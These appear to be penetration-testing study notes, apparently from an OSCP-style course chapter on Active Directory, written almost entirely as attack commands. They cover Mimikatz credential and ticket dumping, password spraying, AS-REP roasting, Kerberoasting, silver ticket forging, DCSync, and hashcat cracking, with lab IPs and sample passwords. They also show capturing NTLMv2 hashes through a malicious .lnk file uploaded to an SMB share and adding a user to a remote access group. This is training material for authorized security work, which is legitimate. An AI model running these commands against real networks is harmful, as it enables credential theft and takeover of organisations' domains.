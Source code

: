## 22.1. Understanding AD Authentication
### 22.1.3. Cached AD Credentials
#### Starting Mimikatz and enabling SeDebugPrivilege
```PowerShell
.\mimikatz.exe
```

```mimikatz
privilege::debug
```
#### Dump hashes for all users logged on to the current workstation or server
```mimikatz
sekurlsa::logonpasswords
```
#### Extracting Kerberos tickets with mimikatz
```mimikatz
sekurlsa::tickets
```
## 22.2. Performing Attacks on Active Directory Authentication
### 22.2.1. Password Attacks
#### Obtain password policy
```PowerShell
net accounts
```
#### Authenticating using DirectoryEntry
```PowerShell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
```

```PowerShell
$PDC = ($domainObj.PdcRoleOwner).Name
```

```PowerShell
$SearchString = "LDAP://"
```

```PowerShell
$SearchString += $PDC + "/"
```

```PowerShell
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
```

```PowerShell
$SearchString += $DistinguishedName
```

```PowerShell
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "pete", "Nexus123!")
```
#### Using Spray-Passwords to attack user accounts
```PowerShell
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
```
#### Using crackmapexec to attack user accounts
```Shell
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```
#### Crackmapexec output indicating that the valid credentials have administrative privileges on the target
```Shell
crackmapexec smb 192.168.50.75 -u dave -p 'Flowers1' -d corp.com
```
crackmapexec added Pwn3d! to the output, indicating that dave has administrative privileges on the target system
#### Using kerbrute to attack user accounts
```PowerShell
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```
### 22.2.2. AS-REP Roasting
#### Using GetNPUsers to perform AS-REP roasting
```Shell
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
```
#### Obtaining the correct mode for Hashcat
```Shell
hashcat --help | grep -i "Kerberos"
```
#### Cracking the AS-REP hash with Hashcat
```Shell
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
#### Using Rubeus to obtain the AS-REP hash of dave
```PowerShell
.\Rubeus.exe asreproast /nowrap
```
#### Cracking the modified AS-REP hash
```Shell
sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
### 22.2.3. Kerberoasting
#### Utilizing Rubeus to perform a Kerberoast attack
```PowerShell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
#### Cracking the TGS-REP hash
```Shell
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
#### Using impacket-GetUserSPNs to perform Kerberoasting on Linux
```Shell
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```
#### Cracking the TGS-REP hash
```Shell
sudo hashcat -m 13100 hashes.kerberoast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
### 22.2.4. Silver Tickets

#### Trying to access the web page on WEB04 as user jeff
```PowerShell
iwr -UseDefaultCredentials http://web04
```
#### Using Mimikatz to obtain the NTLM hash of the user account iis_service which is mapped to the target SPN
```mimikatz
privilege::debug
```

```mimikatz
sekurlsa::logonpasswords
```
#### Obtaining the domain SID
```PowerShell
whoami /user
```
#### Forging the service ticket with the user jeffadmin and injecting it into the current session
```mimikatz
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```
#### Exit mimikatz and list Kerberos tickets to confirm the silver ticket is submitted to the current session
```PowerShell
klist
```
#### Accessing the SMB share with the silver ticket
```PowerShell
iwr -UseDefaultCredentials http://web04
```
### 22.2.5. DCSync
#### Using Mimikatz to perform a dcsync attack to obtain the credentials of dave
```mimikatz
lsadump::dcsync /user:corp\dave
```
#### Using Hashcat to crack the NTLM hash obtained by the dcsync attack
```Shell
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
#### Using Mimikatz to perform a dcsync attack to obtain the credentials of the domain administrator Administrator
```mimikatz
lsadump::dcsync /user:corp\Administrator
```
#### Using secretsdump to perform the dcsync attack to obtain the NTLM hash of dave
```Shell
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```
#### Updating impacket
```Shell
pip install --upgrade impacket
```

## Additional Techniques from PG Practice
### Using the crackmapexec slinky module to upload a .lnk file to an SMB share and obtain an NTLMv2 hash
Requires write privileges on the target share
#### Start responder
```Shell
responder -I tun0
```
#### Upload .lnk to writable share using crackmapexec and slinky
```Shell
crackmapexec smb 192.168.211.30 -u nara -p '' -M slinky -o SERVER=192.168.45.222 NAME=important
```
### Using GenericAll privileges to the Remote Access Group (CanPSRemote) to add a member to the group
![[bloodhound path.png]]
#### Add a user to the Remote Access Group using net rpc
```Shell
net rpc group addmem "Remote Access" "Tracy.White" -U "nara-security.com"/"Tracy.White"%"zqwj041FGX" -S $ip
```
Format:
```
net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```
